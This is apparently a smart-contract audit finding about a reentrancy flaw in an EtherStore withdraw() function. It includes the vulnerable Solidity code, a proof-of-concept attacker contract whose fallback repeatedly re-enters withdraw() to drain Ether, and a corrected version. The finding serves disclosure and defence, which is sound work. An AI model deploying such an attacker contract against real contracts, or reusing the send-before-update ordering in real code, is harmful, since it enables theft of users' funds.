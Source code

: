 # [H-01] Reentrancy Vulnerability in Withdraw Function
Submitted by Audit Professional

EtherStore.sol#L12-L18

The withdraw() function in the EtherStore contract is vulnerable to a reentrancy attack due to the order of operations. The function first sends the Ether to the user and then sets their balance to 0. This allows an attacker to repeatedly call the withdraw() function before their balance is set to 0, draining the contract's Ether.

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");

    balances[msg.sender] = 0;
}
```

## Proof of Concept

An attacker can create a malicious contract that calls the withdraw() function in a fallback function, allowing them to repeatedly withdraw their balance before it is set to 0.

```solidity
contract MaliciousContract {
    EtherStore public etherStore;

    constructor(EtherStore _etherStore) {
        etherStore = _etherStore;
    }

    function attack() public payable {
        etherStore.deposit{value: msg.value}();
        etherStore.withdraw();
    }

    fallback() external payable {
        if (address(etherStore).balance >= msg.value) {
            etherStore.withdraw();
        }
    }
}
```

## Recommended Mitigation Steps

To fix the reentrancy vulnerability, follow the Checks-Effects-Interactions pattern. Set the user's balance to 0 before sending the Ether. This will prevent the attacker from repeatedly calling the withdraw() function and exploiting the reentrancy vulnerability.

Here's the updated withdraw() function:

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    balances[msg.sender] = 0;

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");
}
```

Additionally, consider using the OpenZeppelin library's ReentrancyGuard to further protect the contract from reentrancy attacks.